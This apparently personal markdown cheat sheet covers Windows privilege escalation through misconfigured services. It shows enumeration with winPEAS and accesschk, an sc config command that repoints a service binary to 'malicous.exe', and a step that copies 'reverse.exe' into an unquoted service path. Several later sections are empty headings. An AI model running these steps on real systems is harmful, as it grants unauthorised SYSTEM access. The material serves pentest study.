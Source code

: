 #windows #privesc #services #cmd #registry

## Introduction 

Services are simply programs that run in the background  , accepting input or performing regular tasks.

If services run with SYSTEM privileges and are misconfigured , exploiting theme may lead to command execution with SYSTEM privileges as well.


# Services Commands

##### Query the configuration of a service :

```cmd
sc.exe qc <name>
```

```powershell 
Get-WmiObject win32_service | Where-Object { $_.Name -eq "<name>" }
```

#### Query the current status of a service :

```cmd
sc.exe query <name>
```

```powershell
Get-Service -Name <name>
```

#### Modify a configuration option of a service :

```cmd
sc.exe config <name> <option>= <value>
```

```powershell
Get-Service -Name <name> -StartupType <Manual|Automatic|Disabled>
```

#### Start / Stop a service :

```cmd
net start/stop <name>
```

```powershell
Start-Service -Name <name>
Stop-Service -Name <name>
```









#  1- Insecure Service Properties

If our user has permission to change the configuration of a service which runs with SYSTEM privileges , we can change the executable service and use to one of our own.

<span class="red-text">Potential Rabbit Hole :</span>
If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges 

```powershell
.\winPEASany.exe servicesinfo
```

##### Exemple of winPEAS out :

```bash
[+] Interesting Services -non Microsoft-(T1007)
    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] -         Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles
```

We can see in Modifiable Services also in LinPEAS out :

```bash
[+] Modifiable Services(T1007)
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    daclsvc: WriteData/CreateFiles
```


##  I - Verify permissions with accesscheck 

```cmd
.\accesschk.exe /accepteula -uwcqv <user> <ServiceName>
```

Verify with cmd:
```cmd
sc sdshow <Nom_du_Service>
```


Verify with Powershell : 
```powershell
Get-Service -Name <Nom_du_Service>
(Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\<Nom_du_Service>").Access

```

#### Exemple with DaclSvc service :
```cmd
C:\Tools>.\accesschk.exe /accepteula -uwcqv user daclsvc
.\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```


Query the service :
```cmd
sc qc daclsvc

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem


```
---
##  II - Query the service 

```cmd
sc qc <serviceName>
```

```powershell
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\<SerName>" -Name ImagePath
```

Verify <span class="red-text">START_TYPE</span> , <span class="red-text">BINARY_PATH_NAME</span> and <span class="red-text">SERVICE_START_NAME</span>

Check the current status of a service :
```cmd
sc query <ServiceName>
```

Check the <span class="red-text">STATE</span>

---
## III - Change Binary Path 


```cmd
sc config <ServiceName> binpath= "\"C:\folder\malicous.exe\""
```

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\<Nom_du_Service>" -Name ImagePath -Value "C:\Nouveau\Chemin\executable.exe"
```

--- 

Now Start the service 

```cmd
net start <ServiceName>
```
```powershell
Start-Service -Name <ServiceName>
```


---


#  2 - Unquoted Service Path
 
Executables in Windows can be run without using their extension ( e.g. "whoami.exe" can be run by just typing "whoami" ).

Some executables take arguments, separated by spaces , e.g someprog.exe arg1 arg2 arg3 
This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Command Powershell to find unquoted paths :

```powershell
Get-WmiObject win32_service | Where-Object { $_.PathName -like "* *" -and $_.PathName -notlike '"*"' } | Select-Object Name, PathName

```

##### Exemples of WinPeas Out :


```bash

unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - ==No quotes and Space detected==

```





## I - Verify permissions with accesschk

```cmd
.\accesschk.exe /accepteula -ucqv <user> <ServiceName>
```

## II - Verify ACL on each directory on the Bin Path 


With accesschk 
```cmd
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq "C:\Program File\"
.\accesschk.exe /accepteula -uwdq "C:\Program File\Unquoted Path Serice\"
```

With icacls  
```cmd
icacls "C:\Program Files\Unquoted Path Service"
```

With PowerShell 
```powershell
(Get-Acl "C:\Program Files\Unquoted Path Service").Access
```

## III - Copy Payload to the directory 

```cmd
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

And Run the service
#  3 - Weak Registry Permissions



#  4 - Insecure Service Executables
#  5 - DLL Hijacking